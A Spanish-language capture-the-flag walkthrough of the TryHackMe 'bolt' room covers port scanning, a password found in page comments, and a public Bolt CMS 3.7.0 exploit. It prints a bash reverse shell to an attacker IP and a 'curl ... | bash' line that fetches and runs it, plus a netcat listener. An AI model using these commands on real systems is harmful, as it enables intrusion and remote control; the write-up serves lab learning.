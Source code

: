 ```yaml
---
title: "bolt"
description: "bolt"
pubDate: 2025-05-20
---
```


https://tryhackme.com/r/room/bolt

# Fase de reconocimiento

## Buscamos puertos abiertos

````
nmap -sS -p- -T5 --min-rate=5000 -vvv -Pn -n 10.10.113.97
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240602022525.png)

## Reconocimiento de servicios

````
nmap -sCV -p22,80,8000 10.10.113.97
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240602022643.png)

## Fuzzing

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240602023315.png)

Password in comments (Hyperealistic)
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240602023345.png)
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240602024537.png)
Nos logueamos con la contraseña vista
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240602024626.png)

## Buscar vulnerabilidades

````
searchsploit bolt 3.7.0
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240602025525.png)

# Fase de ataque

Traemos el exploit

````
searchsploit -m php/webapps/48296.py
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240602025948.png)

1. Nos ponemos en escucha

````
nc -nlvp 443
````

2. Creamos un archivo.html con la shell

````
#!/bin/bash

bash -i >& /dev/tcp/10.9.0.36/443 0>&1
````

3. Creamos una web para alojar el archivo

````
python3 -m http.server 80
````

4. En el RCE eejuctamos el archivo

````
curl http://10.9.0.36/archivo.html | bash
````

\[+\] ==pwned!==

## Ajustar terminal

````
script /dev/null -c bash
````

ctrl + z

````
stty raw -echo; fg
````

````
	reset xterm
````

````
export TERM=xterm
````

Find flag

````
find / -name flag.txt
````
